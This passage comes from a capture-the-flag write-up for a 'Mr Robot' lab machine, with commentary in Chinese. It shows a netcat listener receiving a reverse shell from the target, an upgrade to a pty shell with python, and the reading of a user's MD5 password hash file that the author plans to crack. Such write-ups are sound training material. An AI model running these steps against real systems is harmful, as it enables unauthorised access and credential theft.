     ```
    ┌──(kali㉿kali)-[~/桌面/THM/mrrobot]
    └─$ nc -nlvp 4444                  
    listening on [any] 4444 ...
    connect to [10.11.61.123] from (UNKNOWN) [10.10.47.115] 36666
    Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
    15:50:27 up  3:48,  0 users,  load average: 0.00, 0.01, 0.05
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    uid=1(daemon) gid=1(daemon) groups=1(daemon)
    /bin/sh: 0: can't access tty; job control turned off
    $ whoami
    daemon
    $ id
    uid=1(daemon) gid=1(daemon) groups=1(daemon)
    $ which python
    /usr/bin/python
    $ python -c "import pty ; pty.spawn('/bin/bash')"
    daemon@linux:/$ ls
    ls
    bin   dev  home        lib    lost+found  mnt  proc  run   srv	tmp  var
    boot  etc  initrd.img  lib64  media	  opt  root  sbin  sys	usr  vmlinuz
    daemon@linux:/$ cd /home
    cd /home
    daemon@linux:/home$ ls
    ls
    robot
    daemon@linux:/home$ cd robot
    cd robot
    daemon@linux:/home/robot$ ls
    ls
    key-2-of-3.txt	password.raw-md5
    daemon@linux:/home/robot$ cat key-2-of-3.txt
    cat key-2-of-3.txt
    cat: key-2-of-3.txt: Permission denied
    daemon@linux:/home/robot$ ls -l 
    ls -l
    total 8
    -r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
    -rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
    daemon@linux:/home/robot$ cat password.raw-md5
    cat password.raw-md5
    robot:c3fcd3d76192e4007dfb496cca67e13b
    ```

+ 发现key-2-of-3.txt属于robot用户，当前无权限访问，通过解密robot的password.raw-md5来获得：
